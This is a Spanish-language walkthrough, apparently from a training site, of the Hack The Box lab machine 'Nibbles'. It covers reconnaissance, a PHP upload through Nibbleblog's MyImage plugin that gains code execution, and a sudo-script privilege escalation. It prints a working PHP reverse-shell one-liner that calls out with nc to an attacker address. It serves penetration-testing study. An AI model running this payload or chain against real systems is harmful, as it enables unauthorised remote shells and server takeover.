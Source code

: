 ```yaml
---
description: '✍️ Autor: Hack The Box🔍 Dificultad: Fácil  📅 Fecha de creación: 13/01/2018'
---
```


# Nibbles

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.129.12.162
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.12.162 
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.129.12.162
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos salga un mensaje.\
![](<../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png>)

Revisamos el código por si hay alguna información relevante.\


<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos muestra un directorio por lo que indagaremos ahí.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://10.129.12.162/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hay dos archivos interesantes como `admin.php` y `README`.

```bash
curl http://10.129.12.162/nibbleblog/README
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hemos confirmado que la versión **4.0.3** está en uso, lo que sugiere que es probable que sea vulnerable al módulo de **Metasploit** (aunque podría tratarse de una página antigua del README). No observamos nada más relevante. Ahora, revisemos la página de inicio de sesión del portal de administración.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-07 095935.png" alt=""><figcaption></figcaption></figure>

Para usar el **exploit** mencionado, necesitaremos credenciales de administrador válidas. Probamos técnicas de omisión de autenticación y combinaciones comunes como **admin** y **admin**, sin éxito. Hay una opción para restablecer la contraseña, pero da un error de correo. Además, demasiados intentos rápidos activan un bloqueo con el mensaje **"Nibbleblog security error - Blacklist protection"**.

Volvamos a nuestros resultados de fuerza bruta en el directorio. Los códigos **200** muestran páginas accesibles, los **403** indican acceso prohibido y el **301** es una redirección permanente. Navegamos a **nibbleblog/themes/** y vemos que el listado de directorios está habilitado.

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al navegar a **nibbleblog/content**, encontramos subdirectorios interesantes: public, private y tmp. Explorando un poco, encontramos un archivo **users.xml** que confirma que el nombre de usuario es **admin**. También muestra direcciones IP en la lista negra. Podemos solicitar este archivo con **cURL** y formatear la salida **XML** usando **xmllint**.

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Confirmamos que **admin** es el usuario.

No hay otros puertos abiertos y no encontramos más directorios. Podemos confirmarlo realizando fuerza bruta adicional en directorios contra la raíz de la aplicación web.

```bash
gobuster dir -u http://10.129.12.162/ --wordlist /usr/share/dirb/wordlists/common.txt
```

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

Al revisar nuevamente todos los directorios expuestos, encontramos un archivo **config.xml**.

```bash
curl -s http://10.129.12.162/nibbleblog/content/private/config.xml | xmllint --format -
```

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

Al revisar el archivo, esperamos encontrar contraseñas, pero no obtenemos resultados. Sin embargo, vemos dos menciones de "**nibbles**" en el título del sitio y en la dirección de correo de notificación. Este también es el nombre de la máquina.&#x20;

Al realizar cracking de contraseñas offline con una herramienta como **Hashcat** o al intentar adivinar una contraseña, es importante considerar toda la información disponible. No es raro descifrar una contraseña (como la de la red inalámbrica de una empresa) usando una lista de palabras generada al rastrear su sitio web con una herramienta como **CeWL**.

```bash
cewl http://10.129.12.162/nibbleblog -w wordlist.txt
```

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Intentemos usar el plugin **MyImage** para cargar un fragmento de código **PHP** en lugar de una imagen. El siguiente fragmento se puede usar para probar la ejecución de código.

```bash
<?php system('id'); ?>
```

Ahora tenemos que averiguar dónde se subió el archivo si la carga fue exitosa. Volviendo a los resultados de fuerza bruta en los directorios, recordamos el directorio `/content`. Dentro de este, hay un directorio `plugins` y otro subdirectorio llamado `my_image`. La ruta completa es `http://<host>/nibbleblog/content/private/plugins/my_image/`. En este directorio, vemos dos archivos, `db.xml` e `image.php`, con una fecha de última modificación reciente, ¡lo que significa que nuestra carga fue exitosa! Ahora vamos a verificar si tenemos ejecución de comandos.

```bash
curl http://10.129.12.162/nibbleblog/content/private/plugins/my_image/image.php
```

<figure><img src="../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

Parece que hemos obtenido ejecución remota de código en el servidor web, y el servidor Apache se está ejecutando en el contexto del usuario `nibbler`. Vamos a modificar nuestro archivo PHP para obtener una shell inversa y comenzar a explorar el servidor.

Vamos a editar nuestro archivo PHP local y subirlo nuevamente. Este comando debería proporcionarnos una shell inversa. Como se mencionó anteriormente en el Módulo, existen muchas hojas de trucos para shells inversas. Algunas muy buenas son [PayloadAllTheThings ](https://github.com/swisskyrepo/PayloadsAllTheThings)entre otras.

Utilicemos el siguiente one-liner de Bash para la shell inversa y añádelo a nuestro script PHP.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```

```bash
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.47 443 >/tmp/f"); ?>
```

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

Pinchamos en el fichero image.php.

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos Python3, lo cual nos permite obtener una shell más amigable escribiendo `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Al navegar a `/home/nibbler`, encontramos la bandera `user.txt` así como un archivo zip llamado `personal.zip`.

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Si accedemos a esa ruta, veremos que no existe. Por lo tanto, necesitaremos crear el directorio y el archivo:

```bash
cd /home/nibbler
mkdir -p personal/stuff
cd personal/stuff
echo "/bin/bash" > monitor.sh
chmod +x monitor.sh
sudo ./monitor.sh
```

Con estos pasos, obtendremos acceso root. Luego, al ir a `/root/root.txt`, podremos ver la bandera ROOT.

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>
